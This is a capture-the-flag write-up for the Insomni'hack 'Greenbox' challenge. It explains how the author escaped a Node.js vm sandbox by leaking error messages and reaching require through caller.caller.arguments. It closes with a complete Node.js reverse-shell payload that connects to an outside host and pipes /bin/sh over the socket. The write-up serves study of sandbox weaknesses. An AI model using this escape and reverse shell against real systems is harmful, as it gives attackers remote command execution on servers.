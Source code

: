 # Insomni'hack : Greenbox

#### Author: ammar2

**Description**:
> We're given a web page where we can enter javascript code which the servers executes in a "sandboxed" environment.

So the first really critical part is getting information out about our execution, if our code
runs perfectly fine we get a message saying **Your plant is working...**

Not terribly helpful. However, if your code throws an Error, you get the error message back like so:
**Error: Unexpected end of input**

Perfect, we can leverage this to leak out information about the execution environment.
We should first check out what variables we're provided in the environment. If we run

    throw new Error(Object.getOwnPropertyNames(this));

We get back

    decodeURIComponent,JSON,escape,Object,plant,undefined,Function,TypeError,Boolean,ReferenceError,RegExp,Math,RangeError,
    Number,Date,isFinite,parseFloat,NaN,encodeURIComponent,isNaN,environment,Error,eval,SyntaxError,encodeURI,Array,decodeURI,
    String,life,parseInt,EvalError,URIError,unescape,Infinity


The interesting, non standard JS variables are *plant*, *life* and *environment*.

I took a dump of the plant variable like so

  throw new Error(JSON.stringify(plant));


We get back

  json
    [{
        "name": "stem",
        "form": "|/||=",
        "children": ["one", "two"]
    }, {
        "name": "one",
        "form": "\\\\\\|\\/",
        "children": []
    }, {
        "name": "two",
        "form": "|",
        "children": []
    }]


We should likely also look at how we're being called so I also did

  throw new Error(new Error().stack);


This gives us

    Error: Error
        at undefined:1:17
        at Script.(anonymous function) [as runInNewContext] (vm.js:41:22)
        at Object.<anonymous> (/home/greenbox/vm.js:21:27)
        at Module._compile (module.js:456:26)
        at Object.Module._extensions..js (module.js:474:10)
        at Module.load (module.js:356:32)
        at Function.Module._load (module.js:312:12)
        at Function.Module.runMain (module.js:497:10)
        at startup (node.js:119:16)
        at node.js:902:3


This confirms our suspicion that we're being run under a nodejs sandbox, namely using the runInNewContext function.

Assuming the plant variable is used afterwards, we could potentially change it and have the outter non-sandboxed code call into
our code. Running under this assumption I went ahead and wrote out:


    plant = {
        get 0() {
            throw new Error(new Error().stack);
        }
    };


Ths works because in javascript, the following syntax is equivilant array[0]/array.0, and any time external code uses
array[0] it'll jump to our function, perfect!

and this gives us back

    Error: Error
        at Object.0 (undefined:38:25)
        at Object.stringify (native)
        at argvEncode (/home/greenbox/vm.js:10:39)
        at Object.<anonymous> (/home/greenbox/vm.js:30:17)
        at Module._compile (module.js:456:26)
        at Object.Module._extensions..js (module.js:474:10)
        at Module.load (module.js:356:32)
        at Function.Module._load (module.js:312:12)
        at Function.Module.runMain (module.js:497:10)
        at startup (node.js:119:16)


Unfortunately this route, while interesting, turned out to mostly be a dead end. Namely the problem is, when being
called from outside the sandbox code, our object is only being JSON.stringified meaning we have no real access
to the node context.

## The real solution

After an hour of experiemntation with the earlier method, I looked into how we could use the stack in more interesting ways.
This lead me to learn that in javascript, functions have a non standard parameter called caller, which is the calling function,
now it was trivial to access the `Object.<anonymous> (/home/greenbox/vm.js:21:27)` which was calling us.


    function pewpew() {
        throw new Error(pewpew.caller.caller);
    }
    pewpew();


This gives us the source code for the anonymous function in vm.js calling the sandbox code


    Error: function (exports, require, module, __filename, __dirname) { var vm = require('vm');
    // A f*cking security researcher hacked us using process.mainModule to escape the vm.
    process.mainModule = {};

    function argvDecode(arg){
        return JSON.parse(new Buffer(arg, 'base64').toString('binary'));
    }

    function argvEncode(arg){
        return new Buffer(new Buffer(JSON.stringify(arg)).toString('binary')).toString('base64');
    }

    try{
        var environment = argvDecode(process.argv[2]);
        var life = argvDecode(process.argv[3]);
        var plant = argvDecode(process.argv[4]);
        var script = argvDecode(process.argv[5]);

        var sandbox = vm.createContext({environment: environment, life: life, plant: plant});
        var myScript = vm.createScript(script);
        var result = myScript.runInNewContext(sandbox, {timeout: 5000});
    }
    catch(err){
        var result = {
            error: err.message
        };
    }

    try{
        console.log(argvEncode(result));
    }
    catch(err){
        var result = {
            error: err.message
        };
        console.log(argvEncode(result));
    }

    }


Interestingly we can see that nodejs's require function is being passed as an argument to the calling function. In javascript
we can also access another function's passed arguments using f.arguments, this trivially allows us to execute whatever
code we want.

The final payload to make a reverse shell turned out to be

    function pewpew() {
        var func = arguments.callee.caller.caller.arguments;

        var require = func[1];

        var net = require('net');
        var spawn = require('child_process').spawn;

        HOST="ec2.ammaraskar.com";
        PORT="3333";
        TIMEOUT="5000";

        function c(HOST,PORT) {
            var client = new net.Socket();
            client.connect(PORT, HOST, function() {
                var sh = spawn('/bin/sh',[]);
                client.write("Connected\r\n");
                client.pipe(sh.stdin);
                sh.stdout.pipe(client);
            });
            client.on('error', function(e) {
                setTimeout(c(HOST,PORT), TIMEOUT);
            });
        }

        c(HOST,PORT);
    }

    pewpew();
